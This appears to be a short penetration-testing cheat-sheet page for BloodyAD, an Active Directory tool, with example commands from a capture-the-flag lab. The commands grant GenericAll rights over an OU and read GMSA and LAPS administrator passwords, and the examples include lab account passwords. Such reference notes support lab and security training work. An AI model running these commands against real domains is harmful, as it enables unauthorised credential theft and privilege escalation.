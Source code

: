 ```yaml
---
layout:
  title:
    visible: true
  description:
    visible: false
  tableOfContents:
    visible: true
  outline:
    visible: true
  pagination:
    visible: true
---
```


# BloodyAD

## Usage

### Rights Assignment

Give a user the specified rights over an object.

{% code overflow="wrap" %}
```bash
# give oorend user GenericAll rights over the Service Users OU
bloodyAD -d rebound.htb -u oorend -p '1GR8t@$$4u' --host dc01.rebound.htb add genericAll 'OU=SERVICE USERS,DC=REBOUND,DC=HTB' oorend
```
{% endcode %}

### GMSA password

{% code overflow="wrap" %}
```bash
bloodyAD -d rebound.htb -u tbrady -p 543BOMBOMBUNmanda --host dc01.rebound.htb get object 'delegator$' --attr msDS-ManagedPassword
```
{% endcode %}

### LAPS password

{% code overflow="wrap" %}
```bash
bloodyAD -u <user> -d <domain> -p <pass> --host <ip> get object 'COMPUTER$' --attr ms-Mcs-AdmPwd
```
{% endcode %}

## Resources

{% tabs %}
{% tab title="GitHub" %}
{% embed url="https://github.com/CravateRouge/bloodyAD" %}
{% endtab %}

{% tab title="Wiki" %}
{% embed url="https://github.com/CravateRouge/bloodyAD/wiki" %}
{% endtab %}
{% endtabs %}
